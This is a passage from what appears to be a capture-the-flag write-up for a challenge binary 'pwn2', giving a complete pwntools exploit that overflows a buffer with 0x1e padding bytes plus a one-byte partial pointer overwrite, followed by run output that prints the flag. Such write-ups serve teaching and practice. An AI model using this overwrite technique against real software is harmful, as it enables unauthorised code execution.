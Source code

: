 Putting it all together, we have the following exploit:

```
from pwn import *

# Declare the target
target = process('./pwn2')
#gdb.attach(target, gdbscript='pie b *0x7bc')

# Make and send the payload
payload = b"0"*0x1e + b"\xd8"
target.sendline(payload)

target.interactive()
```

When we run it:

```
$   python3 exploit.py 
[+] Starting local process './pwn2': pid 4997
[*] Switching to interactive mode
Which function would you like to call?
This function is still under development.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
```

Just like that, we got the flag!
